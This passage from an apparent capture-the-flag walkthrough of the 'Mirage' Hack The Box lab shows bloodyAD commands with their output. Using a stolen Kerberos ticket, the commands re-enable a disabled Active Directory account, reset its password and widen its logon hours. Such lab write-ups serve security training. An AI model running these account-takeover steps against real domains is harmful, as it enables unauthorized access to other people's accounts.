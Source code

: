 `add|remove uac` can target specific flags, and `set object` can set the mask directly. This is an example for both, but only one or the other is necessary. See [Microsoft Docs](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) for more information about fields. It's worth noting that permissions are per-flag, not for the field as a whole; so just becasue you can set one bit doesn't mean you can set them all.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k remove uac javier.mmarshall -f ACCOUNTDISABLE
```

    [-] ['ACCOUNTDISABLE'] property flags removed from javier.mmarshall's userAccountControl



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v 66048 --raw javier.mmarshall userAccountControl 
```

    [+] javier.mmarshall's userAccountControl has been updated



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set password javier.mmarshall 'Password1234!'
```

    [+] Password changed successfully!



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v ///////////////////// --raw javier.mmarshall logonHours 
```

    [+] javier.mmarshall's logonHours has been updated


With these fields all updated, we can verify our state and attempt to log in with javier.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object javier.mmarshall
```

    
    distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
    accountExpires: 9999-12-31 23:59:59.999999+00:00
    badPasswordTime: 1601-01-01 00:00:00+00:00
    badPwdCount: 0
    cn: javier.mmarshall
    codePage: 0
    countryCode: 0
    dSCorePropagationData: 2025-05-22 21:49:20+00:00
    description: Contoso Contractors
    displayName: javier.mmarshall
    givenName: javier.mmarshall
    instanceType: 4
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-05-25 18:43:57.120180+00:00
    lastLogonTimestamp: 2025-05-22 21:45:29.508220+00:00
    logonCount: 13
    logonHours: ///////////////////// # This is 21 repeating / which is base64 for FF*24
    memberOf: CN=IT_Contractors,OU=Groups,OU=Contractors,OU=IT_Staff,DC=mirage,DC=htb
    msDS-SupportedEncryptionTypes: 0
    nTSecurityDescriptor: O:S-1-5-21-2127163471-3824721834-25683651<snip>09-519)(A;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
    name: javier.mmarshall
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user